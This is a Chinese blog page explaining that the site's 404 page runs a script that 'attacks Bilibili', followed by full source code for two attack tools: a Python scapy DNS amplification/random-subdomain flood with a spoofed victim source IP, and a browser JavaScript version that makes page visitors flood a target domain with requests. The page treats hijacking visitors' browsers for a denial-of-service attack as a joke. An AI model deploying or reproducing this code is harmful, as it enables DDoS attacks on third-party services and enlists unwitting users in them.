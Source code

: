```yaml
---
layout: page
permalink: "404page.html"
title:  "关于404页面"
---
```


大家在访问本站没有的页面时是不是会跳转到404页面呢？细心的人肯定会发现网页下方有一段话
>事实上你访问一次404页面就相当于攻击了b站200次哦~

很有趣对吧？

实际上这是使用了cnBeining的DNSTester。源码如下：

{% highlight python %}
#!/usr/bin/env python
#coding:utf-8
# Author:  Beining --<>
# Purpose: A most easy but powerful DNS tester
# Created: 01/15/2015

import os
import sys
import socket
import random
from multiprocessing.dummy import Pool as ThreadPool
from scapy import *
from scapy.all import *
import csv

global DNS_IP_LIST
DNS_IP_LIST = []
global FAKE_IP
FAKE_IP = ''
global SUCCESS
SUCCESS = 0

#----------------------------------------------------------------------
def dns_amp(qname_address):
    """"""
    global SUCCESS
    dns_ip = random.choice(DNS_IP_LIST)
    a = IP(dst=dns_ip,src=FAKE_IP) 
    b = UDP(dport=53)
    c = DNS(id=1,qr=0,opcode=0,tc=0,rd=1,qdcount=1,ancount=0,nscount=0,arcount=0)
    c.qd=DNSQR(qname=qname_address,qtype=1,qclass=1)
    p = a/b/c
    try:
        send(p)
        SUCCESS += 1
    except KeyboardInterrupt:
        print('FATAL: Quit!')
        print('Success: ' + str(SUCCESS))
        exit()
    except Exception as e:
        print('WARNING: DNSTest failed: %s' % e)
        traceback.print_exc()

#----------------------------------------------------------------------
def main(address, time, length, thread_num, fake_ip):
    """"""
    domain_list = [''.join(map(lambda xx:(hex(ord(xx))[2:]),os.urandom(int(length)))) + '.' + str(address) for i in range(int(time))]
    pool = ThreadPool(int(thread_num))
    results = pool.map(dns_amp, domain_list)
    #close the pool and wait for the work to finish 
    pool.close() 
    pool.join()

#----------------------------------------------------------------------
def read_dns_ip(filename = './nameservers.csv'):
    """"""
    dns_ip_list = []
    with open(filename, 'rb') as f:
        reader = csv.reader(f)
        for row in reader:
            if reader.line_num == 1:  
                    continue
            dns_ip_list.append(row[0])
    return dns_ip_list

#----------------------------------------------------------------------
if __name__=='__main__':
    address = str(sys.argv[1])
    time = int(sys.argv[2])
    thread_num = int(sys.argv[3])
    try:
        FAKE_IP = str(sys.argv[4])
    except:
        FAKE_IP = socket.getaddrinfo("www." + address, 80, 0, 0, socket.SOL_TCP)[0][4][0]
    try:
        dns_filename = str(sys.argv[5])
    except:
        dns_filename = './nameservers.csv'
    try:
        length = int(sys.argv[6])
    except:
        length = random.randint(6, 32)
    print('Reading DNS IP list...')
    DNS_IP_LIST = read_dns_ip(dns_filename)
    print('Start!')
    main(address, time, length, thread_num, FAKE_IP)
    print('Done! Success: ' + str(SUCCESS))
{% endhighlight %}

当然这是python版本（[github](https://github.com/cnbeining/DNSTester)），我们网站用的是同样的javascript版本：

{% highlight javascript %}
/*!
 * DNSTester.js 0.0.35
 * https://github.com/cnbeining/DNSTester.js
 * http://www.cnbeining.com/
 *
 * Includes jQuery
 * http://jquery.com/
 * 
 * Copyright 2015 Beining
 * Released under the GNU GENERAL PUBLIC LICENSE Version 2
 * https://github.com/cnbeining/DNSTester.js/blob/master/LICENSE
 *
 */
var COUNT = 0;
var STARTTIME = (new Date).getTime();
var DOMAIN = ".baidu.com/"; //Change me in caller
var MAX_COUNT = 50000;  //Change me in caller
var TPS = 100;  //Change me in caller
var TIMERID = 0; //To stop the test
function makeid_old(length)
{
    var text = "";
    var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
    for( var i=0; i < length; i++ )
        text += possible.charAt(Math.floor(Math.random() * possible.length));
    return text;
}
function makeid_new(len) {
    //Only avalable in new browsers
    var arr = new Uint8Array((len || 40) / 2);
    window.crypto.getRandomValues(arr);
    text = [].map.call(arr, function(n) { return n.toString(16); }).join("");
    return text;
}
makeid = makeid_new; //asserting
try {
    test_msg = makeid(5)
}
catch(err) {
    console.log("New function not supported! " + err);
    makeid = makeid_old;
}
function r_send2() {
    if ((MAX_COUNT < 1 || COUNT >= MAX_COUNT) != true) {
          get("https://" + makeid(Math.floor((Math.random() * 64) + 1)) + DOMAIN) // NEVER FORGET, in case you use HTTPS
      };
    if (COUNT % 1000 == 0) { //report every 1000 times
          console.log('Done: ' + COUNT.toString())
      };
}
function get(a) {
    var b;
    $.ajax({
        url: a,
        dataType: "script",
        timeout: 1E-2, //So fail immediately, but good enough to stress DNS
        cache: !0,
        // beforeSend: function() {
        // requestTime = (new Date).getTime()
        // },
        complete: function() {
            COUNT += 1;
        }
        })
}
function r_send(a) {
    TIMERID = setInterval("r_send2()", a)
}
{% endhighlight %}

大家可以在[这里](/js/dnstester.js)或者[github](https://github.com/cnbeining/DNSTester.js)上找到源码和使用方式。

点开右边侧栏中的cnBeining页面，你会发现更多有趣的东西~